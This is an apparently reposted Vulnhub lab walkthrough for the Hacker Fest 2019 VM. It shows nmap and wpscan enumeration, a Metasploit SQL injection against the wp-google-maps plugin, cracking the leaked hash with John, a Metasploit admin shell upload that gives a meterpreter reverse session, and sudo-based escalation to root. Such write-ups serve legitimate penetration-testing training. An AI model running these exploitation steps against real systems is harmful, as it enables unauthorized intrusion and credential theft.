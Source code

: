 ```yaml
---
title: 'Hacker Fest: 2019 Vulnhub Walkthrough'
date: 2019-10-12T18:08:00+01:00
draft: false
---
```


Hacker Fest:2019 VM is made by Martin Haller. This VM is a purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing. It is of easy level and is very handy in order to brush up your skills as a penetration tester. The ultimate goal of this challenge is to get root and to read the root flag.

**Level: Easy**

Since these labs are available on the Vulnhub Website. We will be downloading the lab file from this **[link](https://www.vulnhub.com/entry/hacker-fest-2019,378/)**.

### **Penetration Testing Methodology**

*   **Network Scanning**
    *   Nmap port scan
*   **Enumeration**
    *   Browsing HTTP Service
    *   Scanning WordPress (wpscan)
*   **Exploiting**
    *   WordPress Google Maps Plugin SQL Injection
    *   WordPress\_admin\_shell\_upload exploit
*   **Privilege Escalation**
    *   Abusing Sudo Rights

**Walkthrough**

### **Network Scanning**

Starting with netdiscover, to identify host IP address and thus we found **192.168.0.20**. let’s now go for advance network scanning using the nmap Aggressive scan.

```
nmap -A 192.168.0.20
```

We learned from the scan that we have the port 80 open which is hosting Apache httpd service, and we have the ports 21 and 22  open. This tells us that we also have the FTP service, SSH Service running on the target machine.

![](https://i2.wp.com/1.bp.blogspot.com/-_eqtGVzfPLc/XaIGE-f-7uI/AAAAAAAAg6g/CkQ2o8ghPYQF5lWAF7jFbBElSj44KgvtgCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

### **Enumeration**

Since we got the port 80 open, we decided to browser the IP Address in the web browser.

![](https://i2.wp.com/1.bp.blogspot.com/-cS8OIkMasSY/XaIGFKGeGWI/AAAAAAAAg6k/jFG6BUdvRjwxZUT0QFLSVRXxGLuwsQ8iQCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

This gave us a site that looks like a WordPress site, it’s time to perform a wpscan on the target machine.

```
wpscan --url http://192.168.0.20/
```

![](https://i2.wp.com/1.bp.blogspot.com/-snBF3Xm1fH8/XaIGEwLIvCI/AAAAAAAAg6c/CE0ay-t0Hfc3mqPMXppfAseeaJAJ-TM3wCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

If we move further down in the wpscan result we find the WordPress google map plugin. It is not updated. So, this could help us. Let’s try and exploit it.

![](https://i1.wp.com/1.bp.blogspot.com/-QIc5pygZfLg/XaIGFwCECFI/AAAAAAAAg6o/KZrRVlkNU10U2TPrRYZk9F1D5eNHDRGNQCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

### **WordPress Google maps Sqli Exploit**

We searched the google maps on our Metasploit Framework.  This gave us this exploit. This exploit works on a SQL injection vulnerability in a REST endpoint registered by the WordPress plugin wp-google-maps between 7.11.00 and 7.11.17 (included). As the table prefix can be changed by administrators, set DB\_PREFIX accordingly.

```
msf5 > use auxiliary/admin/http/wp google\_maps\_sqli  
msf5 auxiliary(admin/http/wp\_google\_maps\_sqli) > set rhosts 192.168.0.20  
msf5 auxiliary(admin/http/wp\_google\_maps\_sqli) > exploit
```

![](https://i1.wp.com/1.bp.blogspot.com/-VIJfs8a_3mk/XaIGFzUxsfI/AAAAAAAAg6s/FosQ6zC4Y-IcDKESql0AqI8ow1HuaqpsQCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

So, we got the following hash through the SQL injection that was on the target machine.

```
webmaster $P$Bsq0diLTcye6ASlofreys4GzRlRvSrl
```

Whenever we get some hashes all we remember is our best friend John The Ripper. The hashes were saved in a file named ‘hash’. We ran it through john. After working on it for some time. John cracked one of the hashes, it came out to be ‘kittykat1’.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![](https://i0.wp.com/1.bp.blogspot.com/-hsBd4_FORNM/XaIGGOZ0saI/AAAAAAAAg6w/-DzZRzlx4skb0ZAVvVigVoKs_omCJ9RiwCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

The very first method that we have is Metasploit framework, this module takes an administrator username and password, logs into the admin panel, and uploads a payload packaged as a WordPress plugin. Because this is authenticated code execution by design, it should work on all versions of WordPress and as a result, it will give meterpreter session of the webserver.

```
msf5 > use exploit/unix/webapp/wp\_admin\_shell\_upload  
msf5 exploit(unix/webapp/wp\_admin\_shell\_upload) > set rhosts 192.168.0.20  
msf5 exploit(unix/webapp/wp\_admin\_shell\_upload) > set username webmaster  
msf5 exploit(unix/webapp/wp\_admin\_shell\_upload) > set password kittykat1  
msf5 exploit(unix/webapp/wp\_admin\_shell\_upload) > exploit   
meterpreter > shell  
python -c 'import pty;pty.spawn("/bin/bash")'  
su webmaster  
Password: kittykat1
```

Great!! It works wonderfully and you can see that we have owned the reverse connection of the web server via meterpreter session.

![](https://i2.wp.com/1.bp.blogspot.com/-QLIE2042c0s/XaIGGgQ-Y4I/AAAAAAAAg60/_uJYgAmB-M843eKUlI9WxpgpGlnbzSedQCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

### **Privilege Escalation**

On the other hands start your attacking machine and first compromise the target system and then move to the privilege escalation phase. After successful login in the victim’s machine now executes below command to know sudo rights for the current user.

```
sudo -l  
sudo su  
cd /root  
ls  
cat flag.txt
```

![](https://i0.wp.com/1.bp.blogspot.com/-DayGdDDGdmo/XaIGGzm8lXI/AAAAAAAAg64/8VT8dK1xxCMBJeXnDWfGG5lW0Hapq0TDQCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

**Author: Japneet Kaur Gandhi **is a Technical Writer, Researcher and Penetration Tester.** Contact **[**here**](https://www.linkedin.com/in/japneet-kaur-65a13b171/)

The post [Hacker Fest: 2019 Vulnhub Walkthrough](https://www.hackingarticles.in/hacker-fest-2019-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2M7ISaW
